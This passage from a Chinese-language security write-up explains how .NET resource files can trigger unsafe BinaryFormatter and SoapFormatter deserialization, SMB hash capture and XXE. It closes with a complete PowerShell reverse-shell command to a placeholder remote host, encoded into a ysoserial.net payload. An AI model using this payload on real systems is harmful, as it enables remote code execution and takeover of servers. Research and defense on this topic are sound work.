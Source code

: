 ```
“使用不受信任的数据调用此类中的方法存在安全风险。仅使用受信任的数据调用此类中的方法。有关的更多信息，可参阅 不被信任数据存在的安全风险
```

我们应该注意到，`System.Resources方法`的行为尚未被更改，因此所有使用了ASP.NET库 读取、编译 或是 反编译 `资源文件`的应用程序（例如[12]和[13]），如果接受用户提供的资源文件，则很可能会受到攻击



## 如何对System.Resources命名空间产生影响？

因为无法事先确定资源文件中的序列化对象类型，所以不能通过排查 不安全的反序列化 这种方法来防止恶意代码执行。虽然在使用`BinaryFormatter`时可以保护到某些方法，但是想要预防所有的攻击是根本于事无补的，因为`SoapFormatter`或`TypeConverters`可以用作替代方法进行绕过

资源文件 还可以使用 UNC路径 指向本地文件或共享资源，而这又可能导致 文件枚举 或 SMB哈希劫持 等次要风险。当客户端工具被当成目标时， SMB哈希劫持可能会面临更高更大的风险

由于`.resx`文件基于XML，因此在使用普通XML库读取资源文件时，自定义的解析器可能容易遭受XML外部实体（XXE）攻击。但是默认情况下，`ResXResourceReader`类并不会处理 文档类型定义（DTD）这部分的`XmlTextReader`

### <a class="reference-link" name="%E6%8A%80%E6%9C%AF%E7%BB%86%E8%8A%82"></a>技术细节

可以使用 数据的`mimetype`属性 和 元数据标签 在资源文件内反序列化对象，此外`type`属性还可以被用来反序列化使用了`TypeConverters`的对象

**通过BinaryFormatter和SoapFormatter进行反序列化**

在以下情况使用`BinaryFormatter`（`System.Runtime.Serialization.Formatters.Binary.BinaryFormatter`）对资源文件中的对象进行反序列化：
<li>
`mimetype`属性提交空值给`数据标签`;或者</li>
<li>
`mimetype`属性是以下`数据`或`元数据标签`之一：</li>
```
application/x-microsoft.net.object.binary.base64
text/microsoft-urt/psuedoml-serialized/base64
text/microsoft-urt/binary-serialized/base64
```

在以下情况使用`SoapFormatter`（`System.Runtime.Serialization.Formatters.Soap.SoapFormatter`）对资源文件中的对象进行反序列化：
<li>
`mimetype`属性是以下`数据`或`元数据标签`之一：</li>
```
application/x-microsoft.net.object.soap.base64
text/microsoft-urt/soap-serialized/base64
```

由[14]处的源代码可知，`SoapFormatter`并没有通过`System.Web`被使用，然而这仍然可以通过 将 资源文件 上传到 ASP.NET Web应用程序 的资源文件夹中来执行

ysoserial.net项目[15]可在没有事先知道反序列化问题的情况下，生成Payload（攻击载荷）。下面的例子展示了如何生成具有 `反向PowerShell` 功能的Payload（攻击载荷）

```
$command = '$client = New-Object System.Net.Sockets.TCPClient("remote_IP_here", remote_PORT_here);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%`{`0`}`;while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)`{`;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2&gt;&amp;1 | Out-String );$sendback2 =$sendback + "PS " + (pwd).Path + "&gt; ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()`}`;$client.Close()'

$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)

$encodedCommand = [Convert]::ToBase64String($bytes)

./ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -o base64 -c "powershell.exe -encodedCommand $encodedCommand"
```
